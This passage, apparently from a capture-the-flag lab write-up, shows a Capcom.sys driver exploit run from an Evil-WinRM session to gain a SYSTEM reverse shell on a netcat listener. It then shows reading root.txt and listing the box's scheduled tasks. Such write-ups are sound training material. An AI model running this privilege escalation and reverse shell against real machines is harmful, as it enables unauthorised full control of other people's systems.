 If it fails right away at `CreateFile`, this means the driver is not loaded:

```
*Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[-] CreateFile failed    

```

It is trying to open a handle to the IOCTL device the driver exposes, and failing.

Assuming it does work, I’ll get a shell on my listener:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.193.
Ncat: Connection from 10.10.10.193:49827.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\programdata>whoami
nt authority\system

```

From here I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
04805bdc************************

```

## Beyond Root - Automation

I took a look at the automation on the box by looking at the scheduled tasks:

```

PS C:\programdata> get-scheduledtask
get-scheduledtask

TaskPath                                       TaskName                                                      
--------                                       --------                         
\                                              Revert Password and Expiry      
\                                              Revert2                          
\Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.30319  
\Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.3031...
\Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.3031...
\Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.3031...
...[snip]...

```

